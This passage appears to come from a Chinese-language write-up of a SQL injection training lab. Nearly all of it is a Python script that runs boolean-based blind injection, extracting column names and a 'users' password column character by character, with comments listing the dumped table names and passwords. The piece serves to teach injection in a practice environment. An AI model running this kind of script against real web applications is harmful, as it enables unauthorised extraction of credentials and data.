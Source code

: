 ```python
                print(res)
                break
    print("Table names: ", res)

def get_columns():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "1' and substr((select group_concat(column_name separator ';') from information_schema.columns where table_name='users' and table_schema=database()),{},1)='{}'%23".format(i, ch)
            r = requests.get(url + sql)
            if(len(r.text) == 704):
                res += ch
                print(res)
                break
    print("Column names: ", res)

def get_flag():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "1' and substr((select group_concat(password separator ';') from security.users),{},1)='{}'%23".format(i, ch)
            r = requests.get(url + sql)
            if(len(r.text) == 704):
                res += ch
                print(res)
                break
    print("Flag: ", res)

if __name__ == '__main__':
    # get_databse() # 库名：security
    # get_tables() # 表名：emails;referers;uagents;users
    # get_columns() # 列名：1.id;email_id 2.id;referer;ip_address 3.id;uagent;ip_address;username 4.id;username;password
    # 根据以上的结果可以认为需要找的东西在users表中的password字段
    get_flag() # dumb;i-kill-you;p@ssword;crappy;stupidity;genious;mob!le;admin;admin1;admin2;admin3;dumbo;admin4
```

最后看一看网页源码，其实实现还是很简单的
